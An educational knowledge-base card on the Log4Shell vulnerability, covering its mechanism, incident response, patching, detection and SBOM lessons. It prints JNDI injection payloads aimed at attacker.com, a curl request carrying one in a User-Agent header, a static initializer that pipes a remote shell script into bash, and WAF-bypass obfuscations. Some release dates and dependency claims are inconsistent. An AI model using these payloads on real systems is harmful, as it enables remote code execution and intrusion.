

⚡ TL;DR - CVE-2021-44228, December 9, 2021. Log4Shell is a critical
Remote Code Execution (RCE) vulnerability in Log4j 2 (Java logging library).
CVSSv3 Score: 10.0 (maximum). When a Java application logs a user-supplied
string containing `${jndi:ldap://attacker.com/exploit}`, Log4j performs a
JNDI lookup to the attacker's server and loads/executes the returned Java class.
No authentication required. Affected essentially every Java application
using Log4j 2.0-2.14.1. Confirmed affected: Apple iCloud, Amazon, Twitter,
Tesla, Minecraft (the initial proof of concept appeared in Minecraft chat).
Fix: Log4j 2.17.1 (disable JNDI by default). Lesson: supply chain security
(dependency you don't control + SBOM enabling fast response = 30 minutes vs 5 days).

---

| #087 | Category: Security | Difficulty: ★★★★ |
|:---|:---|:---|
| **Depends on:** | OWASP Top 10, TLS/HTTPS, Authentication, Session Management, Secrets Management, IAM, TLS Configuration, SAST, Security Logging, Security Testing in CI/CD, Heartbleed 2014 | |
| **Used by:** | SolarWinds SUNBURST 2020, Equifax 2017, TLS Protocol Attacks, CVE + NVD, Responsible Disclosure, SAST in CI/CD, SLSA Framework, CVE Research | |
| **Related:** | OWASP Top 10, TLS/HTTPS, Authentication, Session Management, IAM, Security Logging, Heartbleed, SolarWinds, Equifax, TLS Protocol Attacks, CVE + NVD, SLSA Framework | |

---

### 🔥 The Problem This Solves

**WHY LOG4SHELL WAS A WAKE-UP CALL FOR SUPPLY CHAIN SECURITY:**

```
THE DEPENDENCY BLINDNESS PROBLEM:

  A company's Java application (simplified dependency tree):
  
    my-application 1.0.0
      spring-boot-starter-web 2.5.6
        spring-boot-starter-logging 2.5.6
          logback-classic 1.2.7
            slf4j-api 1.7.32
          log4j-to-slf4j 2.14.1 ←── CRITICAL: this pulls in Log4j!
          log4j-api 2.14.1      ←── Affected!
        ...
      spring-security-core 5.5.3
      ...
  
  QUESTION: Do you know that your application uses Log4j 2.14.1?
  
  COMMON ANSWER (December 9, 2021, when Log4Shell was disclosed):
    "I don't know what's in our dependency tree 3 levels deep."
  
  ORGANIZATIONS WITH SBOM (Software Bill of Materials):
    - Searched SBOM: "grep log4j sbom.json"
    - Found: 3 services using log4j 2.14.1, 1 service using 2.15.0 (not affected)
    - Patched all 3 services within 4 hours of disclosure.
  
  ORGANIZATIONS WITHOUT SBOM:
    - Manual search: read pom.xml files for all services
    - Transitive dependencies: log4j pulled by spring-boot-starter-logging,
      not directly referenced in pom.xml
    - Tool scan (Snyk, OWASP Dependency-Check) ran against all repos: 12 hours
    - Some services use Maven shade plugin (fat jar) - lib list not obvious
    - Services deployed as Docker images - which ones have log4j? Check each.
    - Total discovery time: 3-5 days
    - Attacker had 3-5 days of unanswered exposure window
  
  WIRED.COM (Dec 2021): "The Log4Shell vulnerability is catastrophic. Here's why."
  CISA: "This vulnerability is one of the most serious I've seen in my entire career."
  
  CVSS 10.0 reasons:
    - Attack vector: Network
    - Authentication required: None
    - Complexity: Low (trivial to exploit)
    - Impact: Complete (RCE - attacker runs arbitrary code as Java process)
    - No special conditions required
```

---

### 📘 Textbook Definition

**Log4Shell (CVE-2021-44228):** A critical Remote Code Execution vulnerability
in Apache Log4j 2 (Java logging library) versions 2.0-beta9 through 2.14.1.
When Log4j processes a log message containing a JNDI lookup expression
(e.g., `${jndi:ldap://attacker.com/exploit}`), it performs an outbound
network request to the specified URI and loads and executes the returned
Java class. The vulnerability exists because Log4j's message lookup feature
resolves JNDI expressions within log messages by default.

**JNDI (Java Naming and Directory Interface):** Java API for accessing
naming and directory services (LDAP, RMI, DNS). Allows Java applications
to look up objects by name from a directory service. Log4j supported JNDI
lookups in log messages as a "feature" for dynamic configuration, which
became the vector for this attack.

**LDAP classloading attack:** When a Java application performs an LDAP
lookup and the server returns a reference to a remote Java class, the JVM
can load and instantiate that class from the specified URL. This allows
a malicious LDAP server to cause the victim JVM to download and execute
arbitrary Java code (Remote Code Execution).

**SBOM (Software Bill of Materials):** A complete list of all software
components, libraries, and their versions used in an application. Analogous
to an ingredient list for software. Required by US Executive Order 14028
(May 2021) for software sold to the US government. Enables rapid identification
of affected systems when a dependency vulnerability is disclosed.

**Supply chain vulnerability:** A vulnerability in a component that many
different applications depend on (directly or transitively). The vulnerability
propagates through the entire supply chain of dependent applications.

---

### ⏱️ Understand It in 30 Seconds

**One line:**
Log4Shell: if your Java application logs a user-supplied string like
`${jndi:ldap://attacker.com/x}`, Log4j goes to the attacker's server,
downloads a Java class, and executes it. The user-supplied string is the
payload. Logging it is the trigger. Remote code execution is the result.

**One analogy:**
> Your application has a "write this message to a diary" feature.
> A visitor tells the butler: "Please write this in the diary:
> 'Go to 123 Evil Street, pick up a package, and execute its contents.'"
>
> The butler (Log4j) dutifully:
> 1. Writes the message in the diary.
> 2. Sees it says "go to 123 Evil Street."
> 3. Goes to 123 Evil Street (LDAP lookup to attacker.com).
> 4. Picks up a package (downloads Java class).
> 5. Executes its contents (loads and runs malicious code).
>
> The user never expected the butler to FOLLOW the instructions in the message.
> The butler was supposed to write it down.
> But Log4j interpreted the `${...}` syntax as an instruction, not a string.
>
> The defense: the butler should write what it's told, not execute it.
> In code: sanitize input before logging (or disable JNDI lookups in Log4j).

---

### 🔩 First Principles Explanation

**How Log4j lookup expressions work:**

```
LOG4J MESSAGE LOOKUP FEATURE (the feature that caused the bug):

  Legitimate use of Log4j lookups (what it was designed for):
    
    log.info("Application: ${env:APP_NAME} Version: ${sys:app.version}");
    
    Log4j resolves:
    - ${env:APP_NAME} → reads APP_NAME environment variable
    - ${sys:app.version} → reads System.getProperty("app.version")
    
    Legitimate output: "Application: my-app Version: 1.0.0"
    
    This feature allows dynamic log messages without code changes.
    Designed for static configuration (env vars, system properties).
  
  THE VULNERABILITY: lookup applies to user-supplied strings too
    
    String userInput = "${jndi:ldap://attacker.com/exploit}";
    log.error("Login failed for user: " + userInput);
    //                                         ^^^^^^^^^^^
    //                             User-controlled input → logged
    
    Log4j processes the log message and resolves ALL ${...} expressions:
    
    1. Sees: ${jndi:ldap://attacker.com/exploit}
    2. JNDI lookup: connects to ldap://attacker.com on port 389
    3. Attacker's LDAP server responds:
       "The object you requested is a Java class at http://attacker.com/Exploit.class"
    4. Log4j fetches http://attacker.com/Exploit.class
    5. Log4j instantiates the class (calls static initializer)
    6. Exploit.class runs: opens reverse shell, creates admin user, etc.
  
  SCOPE OF THE PROBLEM:
    
    ANY Java application that:
    - Uses Log4j 2.0-2.14.1 (NOT log4j 1.x - different code)
    - Logs any user-controllable input
    
    "User-controllable input" includes:
    - HTTP request headers (User-Agent, X-Forwarded-For, Referer)
    - HTTP request body parameters (username, search query)
    - API parameters
    - Any data from an external source that gets logged
    
    WHO LOGS USER-AGENT?
    Almost every web application.
    HTTP access logs. Debug logs. Error logs.
    "Login failed for user X from IP Y using browser Z"
    → Z = User-Agent = attacker-controlled = trigger.
    
    MINECRAFT PROOF OF CONCEPT (December 7, 2021, 2 days before public disclosure):
    A player typed "${jndi:ldap://attacker.com/x}" in Minecraft chat.
    Minecraft server logged the chat message.
    Minecraft server used Log4j 2.
    Minecraft server connected to attacker.com.
    Public PoC published. Log4Shell discovered by the world.
```

**Attack variants (bypass attempts post-initial-patch):**

```
LOG4SHELL BYPASS VARIANTS:

  Initial payload:
    ${jndi:ldap://attacker.com/exploit}
  
  Obfuscation (bypassing naive WAF/IDS string matching):
    ${${lower:j}ndi:...}                   (lowercase lookup)
    ${${upper:j}NDI:...}                   (uppercase lookup)
    ${j${::-}ndi:...}                      (empty string concatenation)
    ${${::-j}${::-n}${::-d}${::-i}:...}   (per-character obfuscation)
    ${${env:NaN:-j}ndi:...}               (env var with default)
    
  Protocol variants:
    ${jndi:ldap://...}    (original - most blocked post-disclosure)
    ${jndi:ldaps://...}   (LDAP over TLS)
    ${jndi:rmi://...}     (Java RMI - different protocol, same JNDI)
    ${jndi:dns://...}     (DNS lookup - useful for out-of-band detection only)
    
  WHY WAF BYPASSES WERE TRIVIAL:
    Log4j resolves nested expressions before the final lookup.
    ${${lower:j}ndi:ldap://...} → resolved to ${jndi:ldap://...} → executed.
    WAF pattern matching: looks for literal "${jndi:" → bypass with nested lookups.
    The only reliable fix: disable JNDI lookups in Log4j entirely.
    Not a WAF rule. Not a network filter. Disable the feature.
```

---

### 🧪 Thought Experiment

**SCENARIO: Log4Shell incident response for a mid-size SaaS:**

```
CONTEXT: Engineering team. 10 microservices in Java. 
December 9, 2021. Log4Shell goes public.

HOUR 0: Alert received (security email list, Twitter, CISA advisory)
  
  CVSSv3: 10.0. "Arbitrary code execution by any unauthenticated attacker."
  
  CEO asks: "Are we affected? Give me status in 30 minutes."

HOUR 0-0:30: Discovery
  
  Find all Log4j usage:
    # Maven projects: search pom.xml for log4j
    find . -name "pom.xml" | xargs grep -l "log4j"
    
    # Gradle projects:
    find . -name "*.gradle" | xargs grep -l "log4j"
    
    # Transitive dependencies (Log4j pulled by Spring Boot):
    mvn dependency:tree | grep log4j
    # Result: 6 of 10 services use log4j 2.12.1 or 2.14.1 (AFFECTED)
    #         2 of 10 services use log4j 2.15.0 (partial fix - use 2.17.1)
    #         2 of 10 services use log4j 1.2.17 (NOT affected - different code)
    
    Status at 0:30: "6 services are affected. Working on patches."

HOUR 0:30 - 2:00: Immediate mitigation
  
  Option A: Disable JNDI lookups via JVM flag (no code change, fast):
    -Dlog4j2.formatMsgNoLookups=true
    
    → NOTE: This mitigation was found INSUFFICIENT for some attack vectors.
            Recommended: upgrade to 2.17.1.
    
  Option B: Set environment variable (works if JVM flags not accessible):
    LOG4J_FORMAT_MSG_NO_LOOKUPS=true
    
  Both deployed to all 6 affected services via CI/CD pipeline within 90 minutes.
  
HOUR 2-8: Full patch
  
  Update pom.xml dependencies for all 6 services:
    <dependency>
      <groupId>org.apache.logging.log4j</groupId>
      <artifactId>log4j-core</artifactId>
      <version>2.17.1</version>  <!-- was 2.14.1 -->
    </dependency>
  
  Run build + test + deploy for each service.
  By hour 8: all 6 services running Log4j 2.17.1.
  
HOUR 8-24: Investigation
  
  Review logs for exploitation indicators:
    # Search for JNDI lookup patterns in access logs:
    grep -r "jndi" /var/log/access.log
    grep -r '\$\{' /var/log/access.log
    
    # Look for unusual outbound LDAP connections:
    # (Only possible if network egress is logged - many environments lack this)
    
    Finding: 3,200 scanning attempts in User-Agent header across all services.
    No successful exploitation found (scanning attempts, not confirmed RCE).
    No unusual outbound connections found.
    
    Assessment: Exposure window was 0 days (mitigation applied same day as disclosure).
    Scanning activity: mass automated scanning, not targeted attack.
```

---

### 🧠 Mental Model / Analogy

> Log4Shell = a template engine that executes network requests.
>
> Legitimate template engine:
>   "Hello, {user.name}!"
>   → Substitutes {user.name} with the actual user's name.
>   → All substitutions are from trusted local data.
>
> Log4j JNDI lookup (the problem):
>   "Login failed for user: ${jndi:ldap://attacker.com/exploit}"
>   → ${jndi:ldap://...} triggers a network request to an untrusted server.
>   → Result of the network request: executable code.
>   → Execution: in the server's JVM process with server's permissions.
>
> The category error: template substitution was applied to logging,
> which processes UNTRUSTED USER INPUT.
> Template engines in templating contexts (HTML rendering, email generation)
> also process user input - they avoid code execution by design.
> Log4j's JNDI lookup broke this assumption: lookup → network → executable.
>
> Lesson: features that perform network I/O or code execution
> should NEVER process user-supplied input without explicit, validated configuration.
> Logging user input is a core, expected behavior.
> Having a logging library perform arbitrary network requests based on log content
> is a catastrophic design error - regardless of how useful it was for static config.

---

### 📶 Gradual Depth - Five Levels

**Level 1 - What it is (anyone can understand):**
Log4Shell: if a Java application logs a specially crafted message containing "${jndi:ldap://...}", the Log4j library makes a network connection to the attacker's server and runs whatever code it downloads. The attacker just needs to get the application to log a string they control - like a username, search query, or HTTP header.

**Level 2 - How to use it (junior developer):**
The fix: upgrade Log4j to 2.17.1 (disables JNDI by default). Interim: JVM flag `-Dlog4j2.formatMsgNoLookups=true`. Find affected services: `mvn dependency:tree | grep log4j`. Note: Log4j 1.x is NOT affected (different code). Spring Boot 2.5.x pulled in Log4j transitively via `log4j-to-slf4j` - check your Spring Boot version. After patching: search logs for `${jndi:` in User-Agent, request bodies, and parameters.

**Level 3 - How it works (mid-level engineer):**
Log4j's message lookup feature resolves `${prefix:name}` expressions in log messages. JNDI (`${jndi:ldap://...}`) causes a JNDI lookup. The JVM's JNDI implementation: (1) connects to the LDAP server, (2) retrieves a `javax.naming.Reference` pointing to a Java class URL, (3) if `com.sun.jndi.ldap.object.trustURLCodebase=true` (default in older JVMs), downloads and instantiates the class. Java 8u191+ disabled remote class loading by default, but bypass techniques emerged (deserialization gadgets, local gadget classes). The only reliable fix is disabling JNDI in Log4j itself (2.17.1). Bypass patterns: nested lookups (`${${lower:j}ndi:...}`), alternative protocols (RMI, DNS), obfuscation to bypass WAF rules.

**Level 4 - Why it was designed this way (senior/staff):**
The JNDI lookup feature was added to Log4j intentionally for configuration flexibility - allowing log output format to reference dynamic values from environment/system properties/JNDI for dynamic deployment configuration. The design error: the feature was not restricted to static/trusted sources. It processed ANY log message content, including user-supplied data. The underlying Java JNDI+LDAP code loading behavior was a long-known Java feature used in legitimate enterprise software. The combination of Log4j's unrestricted lookup processing + Java's JNDI remote class loading created a perfect RCE vector. The incident revealed systemic problems: (1) dependency inventory - most teams didn't know Log4j was in their transitive deps; (2) vulnerability response speed - SBOM-equipped teams responded in hours vs days; (3) WAF mitigation gap - bypasses made WAF rules unreliable.

**Level 5 - Mastery (distinguished engineer):**
Log4Shell's systemic implications: SBOM (Executive Order 14028, NTIA SBOM guidelines) became a federal procurement requirement for software sold to US government following Log4Shell. SLSA (Supply Chain Levels for Software Artifacts) framework - provenance attestation of build artifacts - gained adoption post-Log4Shell. Java-specific context: Java security manager (deprecated in Java 17) could restrict JNDI operations if properly configured; modern alternative is Java security policies but complex to configure correctly. Architectural defense: egress network filtering - if Java applications cannot make outbound LDAP connections, Log4Shell exploitation fails at the JNDI lookup step even without patching; network egress control as defense-in-depth (not a substitute for patching). Detection: DNS canary tokens (`${jndi:dns://...}`) used for out-of-band detection to identify exploitation attempts; platforms like Burp Collaborator and Canarytokens.org enabled rapid detection. The class of vulnerability (template injection leading to SSRF and RCE) is not Log4j-specific: server-side template injection (SSTI) in Jinja2/Thymeleaf/Velocity follows the same pattern; Log4Shell is SSTI in a logging library.

---

### ⚙️ How It Works (Mechanism)

```
LOG4SHELL EXPLOITATION CHAIN:

  1. Attacker crafts payload:
     "${jndi:ldap://attacker.com:1389/Exploit}"
  
  2. Attacker sends payload in any logged field:
     curl https://target.com/search -H "User-Agent: \${jndi:ldap://attacker.com/x}"
     # Single quotes around URL to prevent local shell expansion
  
  3. Target application logs User-Agent:
     log.info("Request from: " + request.getHeader("User-Agent"));
     # Log4j sees: "Request from: ${jndi:ldap://attacker.com/x}"
     # Log4j resolves the ${jndi:...} expression.
  
  4. Log4j performs JNDI lookup:
     → connects to ldap://attacker.com:1389
     → attacker's LDAP server responds with a Reference:
       { className: "Exploit", codebase: "http://attacker.com/classes/" }
  
  5. JVM loads class from attacker's HTTP server:
     → downloads http://attacker.com/classes/Exploit.class
  
  6. JVM instantiates Exploit class (runs static initializer):
     public class Exploit {
       static {
         Runtime.getRuntime().exec("curl attacker.com/shell.sh | bash");
       }
     }
  
  7. Attacker has RCE on target system.
     Runs as the Java process user (often root in containers).
```



---

### 💻 Code Example

**Mitigation options from least to most reliable:**

```java
// FILE: pom.xml - THE CORRECT FIX (full patch):
/*
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.17.1</version>  <!-- 2.17.1 disables JNDI by default -->
</dependency>
*/

// FILE: application.properties - INTERIM MITIGATION (JVM flag):
// -Dlog4j2.formatMsgNoLookups=true
// Or environment variable: LOG4J_FORMAT_MSG_NO_LOOKUPS=true
// NOTE: This is LESS reliable than upgrading. Some bypass paths exist.

// FILE: log4j2.xml - DISABLE JNDI LOOKUP EXPLICITLY (belt-and-suspenders):
/*
<Configuration>
  <Appenders>
    ...
  </Appenders>
  <Loggers>
    <Root level="info">
      <AppenderRef ref="Console" />
    </Root>
  </Loggers>
</Configuration>
<!-- In log4j2.component.properties: -->
<!-- log4j2.enableJndi=false -->
*/

// FILE: DiscoveryScript.sh - Find Log4j in your project:
/*
#!/bin/bash
# Find all pom.xml with log4j dependency:
find . -name "pom.xml" -exec grep -l "log4j" {} \;

# Check transitive dependencies (runs Maven dependency analysis):
mvn dependency:tree -Dincludes=org.apache.logging.log4j 2>/dev/null

# For Docker images (check inside containers):
# Find log4j jars in running containers:
docker ps -q | xargs -I{} docker exec {} find / -name "log4j*.jar" 2>/dev/null

# For fat jars (Spring Boot uber-jars): check inside:
jar tf my-app.jar | grep log4j
*/

// FILE: WafBypassAnalysis.md - Why WAF was insufficient:
/*
WAF Rule (naive):
  Block requests containing: "${jndi:"
  
  Bypass:
    ${${lower:j}ndi:ldap://...}
    → Log4j evaluates ${lower:j} → "j"
    → Produces ${jndi:ldap://...} → executes
    → WAF rule never saw "${jndi:" in the original request
  
  More bypass examples:
    ${j${::-}ndi:...}           (empty string concatenation)
    %24%7bjndi%3aldap%3a%2f...} (URL encoding)
    ${${::-j}${::-n}${::-d}${::-i}:...} (per-char obfuscation)
  
  Conclusion: WAF/IDS rule-based matching cannot reliably block Log4Shell.
  The only reliable fix: upgrade Log4j.
  Defense in depth: network egress filtering blocking outbound LDAP.
*/

// HOW TO DETECT EXPLOITATION ATTEMPTS IN LOGS:
// Search for ${jndi: pattern in all logged fields:
/*
grep -r '\$\{.*jndi' /var/log/ 2>/dev/null
grep -r 'jndi:' /var/log/ 2>/dev/null

# In CloudWatch Logs Insights:
fields @timestamp, @message
| filter @message like /\$\{.*jndi/
| sort @timestamp desc
| limit 100
*/
```

---

### ⚖️ Comparison Table

| | Log4Shell (2021) | Heartbleed (2014) | Equifax/Struts (2017) |
|:---|:---|:---|:---|
| **CVE** | CVE-2021-44228 | CVE-2014-0160 | CVE-2017-5638 |
| **CVSSv3** | 10.0 (maximum) | 7.5 | 10.0 |
| **Impact** | RCE (execute code) | Memory disclosure | RCE |
| **Auth required** | No | No | No |
| **Fix** | Upgrade Log4j | Upgrade + new cert | Patch Struts 2 |
| **Key lesson** | SBOM + supply chain | Memory safety | Patch management SLA |
| **Java specific** | Yes (Log4j, JVM) | No (C library) | Yes (Apache Struts 2) |

---

### ⚠️ Common Misconceptions

| Misconception | Reality |
|:---|:---|
| "We're safe because we're using Log4j 1.x." | Log4j 1.x (legacy, EOL since 2015) does NOT have the Log4Shell JNDI lookup vulnerability because it has a different codebase. However, Log4j 1.x has its own severe vulnerabilities (CVE-2019-17571: RCE via SocketServer; CVE-2022-23302/23305/23307: several CVEs disclosed in early 2022). Being on Log4j 1.x is not a safe position - it is end-of-life and has unpatched vulnerabilities. The correct action: migrate to Log4j 2.17.1+ or an alternative logging framework (Logback + SLF4J, which does NOT use Log4j and is NOT affected by Log4Shell). |
| "Upgrading to Log4j 2.15.0 was sufficient." | Log4j 2.15.0 was the first fix (December 6, released before public disclosure). It restricted JNDI lookups to localhost by default. Within days, bypass techniques were discovered (CVE-2021-45046) that bypassed the 2.15.0 fix in some configurations. Log4j 2.16.0 was released (completely disabled JNDI) but still had a DoS vulnerability (CVE-2021-45105). Log4j 2.17.0 fixed the DoS. For Java 8: Log4j 2.17.1 is the final stable fix. For Java 7: 2.12.4. For Java 6: 2.3.2. The migration story is: 2.15.0 (partial) → 2.16.0 (better) → 2.17.1 (correct). Many organizations who upgraded to 2.15.0 thought they were done and were not. |

---

### 🚨 Failure Modes & Diagnosis

**Log4Shell incident response and detection:**

```
DETECTION: Is your application currently being scanned/exploited?

  1. Search access logs for JNDI patterns:
     
     grep -ri "jndi" /var/log/nginx/access.log
     grep -ri '\$\{' /var/log/nginx/access.log
     
     # AWS ALB logs (in S3):
     aws s3 cp s3://my-alb-logs/AWSLogs/... - | \
       grep -i "jndi\|\${.*:"
     
     # CloudWatch:
     # filter @message like /(?i)\$\{.*jndi/
  
  2. Check for unusual outbound connections:
     
     # Verify no outbound LDAP (port 389, 636) from Java services:
     netstat -an | grep "389\|1389\|636"
     
     # Check DNS queries for unusual domains (indicates DNS canary exfiltration):
     # (requires DNS query logging - VPC DNS logs in AWS)
  
  3. Confirm Log4j version across all services:
     
     # Java agent approach: spring-boot with actuator:
     curl https://myservice.com/actuator/info
     # Shows spring-boot version → infer log4j version from known mapping
     
     # Direct file check in Docker containers:
     docker exec my-container find / -name "log4j-core-*.jar" 2>/dev/null
  
VERIFICATION: After patching:
  
  Test your own application with a DNS canary:
  Set User-Agent to: ${jndi:dns://yourdomain.canarytokens.com/test}
  
  If vulnerable: you'll receive a DNS callback to yourdomain.canarytokens.com
  If patched: no callback.
  
  Canarytokens.org provides free log4shell-specific test tokens
  that trigger DNS lookups on exploitation attempt - safe for verification.
```

---

### 🔗 Related Keywords

**Prerequisites:**
- `Security Logging and Monitoring` (SEC-073) - importance of security logs
- `Heartbleed 2014` (SEC-086) - previous critical library vulnerability

**Builds on this:**
- `SolarWinds SUNBURST 2020` (SEC-088) - supply chain attack
- `SLSA Framework` (SEC-123) - build pipeline integrity and SBOM
- `CVE + NVD` (SEC-099) - vulnerability scoring and disclosure
- `SAST in CI/CD` (SEC-105) - SCA detects affected dependencies

---

### 📌 Quick Reference Card

```
┌──────────────────────────────────────────────────────────┐
│ CVE          │ CVE-2021-44228 (Dec 9, 2021)             │
│ CVSS         │ 10.0 CRITICAL (maximum)                   │
├──────────────┼───────────────────────────────────────────┤
│ AFFECTED     │ Log4j 2.0-beta9 to 2.14.1               │
│ SAFE         │ Log4j 2.17.1+ (Java 8), 1.x NOT affected │
├──────────────┼───────────────────────────────────────────┤
│ TRIGGER      │ Log any string containing ${jndi:ldap://} │
│ IMPACT       │ RCE as Java process user                  │
├──────────────┼───────────────────────────────────────────┤
│ FIX          │ Upgrade to 2.17.1 (not 2.15.0 or 2.16.0)│
│ INTERIM      │ -Dlog4j2.formatMsgNoLookups=true         │
├──────────────┼───────────────────────────────────────────┤
│ DETECT       │ grep -ri "jndi" /var/log/nginx/access.log│
│ EGRESS FIX   │ Block outbound LDAP (port 389, 1389, 636) │
├──────────────┼───────────────────────────────────────────┤
│ LESSON       │ SBOM: know your deps. Response: hours vs  │
│              │ days. Egress filtering as defense-in-depth│
└──────────────────────────────────────────────────────────┘
```

---

### 💎 Transferable Wisdom

**Reusable Engineering Principle:**
"A logging library should write data, never evaluate it."
The core design error in Log4Shell: a library that processes data
(writes log messages) was given the ability to evaluate and execute
expressions in that data (JNDI lookup).
The principle of least functionality: every library component should do
exactly what it needs to do and nothing more.
A logging library's job: serialize a message string to a destination.
It does not need to: perform network requests, load Java classes,
read environment variables (for user-supplied data), or execute expressions.
This principle applies broadly:
- JSON parsers should parse, not execute (prototype pollution attacks).
- XML parsers should parse, not fetch DTDs (XXE: XML External Entity attacks).
- YAML parsers should parse, not execute constructors (YAML deserialization RCE).
- SQL drivers should execute parameterized queries, not interpolate strings.
- Template engines should interpolate from trusted data, not execute arbitrary code.
The pattern: whenever a library component that processes untrusted data
is given the ability to perform side effects (network, execution, file I/O),
a vulnerability class is created.
The mitigation pattern: disable all unnecessary features in libraries
that process untrusted input. The principle of secure defaults:
features that perform side effects should be disabled by default
when untrusted data processing is the primary use case.
Log4j's JNDI lookup: enabled by default. Should have been disabled by default.
Log4j 2.17.1 changed the default to disabled. Too late for 2 years of exposure.

---

### 💡 The Surprising Truth

Log4Shell was known to a small group before public disclosure,
and the response split two worlds dramatically.

The discovery timeline:
- November 24, 2021: Alibaba Cloud Security Team reports to Apache.
- December 9, 2021: Chen Zhaojun (Alibaba) posts public PoC on Twitter.
  The post went live BEFORE the official patch release. The PoC went viral.
- December 10, 2021: Log4j 2.15.0 released. Already too late.
  Mass exploitation had begun within hours of the December 9 PoC.

The 15-day window (Nov 24 to Dec 9):
Apache had 15 days of private knowledge to prepare a fix before public disclosure.
The coordinated disclosure process failed: the PoC was made public before
the patch was ready and distributed. This is a central failure of responsible disclosure.

The SBOM response split:
Companies with SBOM:
  - Searched their SBOM inventory within 30 minutes of disclosure.
  - Identified affected services with certainty.
  - Began patching within 1 hour.
  
Companies without SBOM:
  - Began manual dependency scanning across 100+ services.
  - Discovered transitive Log4j dependencies in Spring Boot apps 3 days later.
  - Had 3+ days of active exploitation exposure.

The US government response:
- CISA Emergency Directive 22-02 (December 17, 2021).
  All federal agencies: patch or mitigate Log4Shell on internet-facing systems
  within 24 hours, all systems within 2 weeks.
- US Executive Order 14028 (already signed May 2021) required SBOM
  for federal software procurement. Log4Shell demonstrated why.

The Log4Shell aftermath is the clearest before/after demonstration
of SBOM value: 30 minutes vs 5 days to identify exposure.
For a CVSSv3 10.0 vulnerability with active exploitation from day 1,
5 days of unmitigated exposure is an organization-defining risk.

---

### ✅ Mastery Checklist

**You've mastered this when you can:**
1. **EXPLAIN** the Log4Shell exploitation chain: user-controlled string → log call →
   Log4j resolves ${jndi:ldap://...} → JNDI lookup → remote class load → RCE.
2. **IDENTIFY** the correct fix: upgrade to Log4j 2.17.1 (NOT 2.15.0 or 2.16.0,
   which had bypasses). Interim: `-Dlog4j2.formatMsgNoLookups=true`.
3. **EXPLAIN** why WAF rules were insufficient: nested lookup obfuscation
   (`${${lower:j}ndi:...}`) bypasses string-matching rules.
4. **ARTICULATE** the SBOM value: organizations with SBOM identified affected
   services in 30 minutes; without SBOM: 3-5 days.

---

### 🎯 Interview Deep-Dive

**Q: Explain the Log4Shell vulnerability. What was the root cause,
why was it so severe, and how would you respond to it in production?**

*Why they ask:* Tests CVE knowledge at technical depth. Relevant for any
Java/backend role. Also tests incident response reasoning.

*Strong answer covers:*
- CVE-2021-44228, December 2021. Log4j 2.0-2.14.1. CVSSv3: 10.0 (maximum).
- Root cause: Log4j resolves `${...}` expressions in log messages.
  When processing `${jndi:ldap://attacker.com/exploit}`, Log4j performs
  a JNDI lookup, downloads the Java class referenced by the LDAP response,
  and instantiates it. The instantiation runs attacker-controlled code.
- Trigger: ANY user-controllable input that gets logged.
  User-Agent header, username, search query, form fields.
  Almost every web application logs at least one user-controlled value.
- Severity factors: network accessible, no auth, trivial to exploit,
  library used by millions of Java apps, RCE with server process privileges.
- Response steps:
  1. Find affected services (pom.xml grep, `mvn dependency:tree | grep log4j`).
  2. Upgrade Log4j to 2.17.1 (for Java 8).
  3. Restart all affected services.
  4. Interim: `-Dlog4j2.formatMsgNoLookups=true` JVM flag if fast upgrade not possible.
  5. Search logs for `${jndi:` patterns in logged fields.
  6. Check for outbound LDAP connections (port 389, 1389) in network logs.
  7. Block egress LDAP if network controls available (defense in depth).
- Why 2.15.0 wasn't enough: bypass CVE-2021-45046 existed. Use 2.17.1.
- SBOM lesson: teams with SBOM identified exposure in 30 min vs 3-5 days.
  This gap is the business case for SBOM (Executive Order 14028).
- Design lesson: logging libraries should write data, not evaluate it.
  JNDI lookup in a logging library should never have been designed to
  process user-supplied content. Secure defaults: JNDI should be disabled
  unless explicitly enabled for specific static configuration use.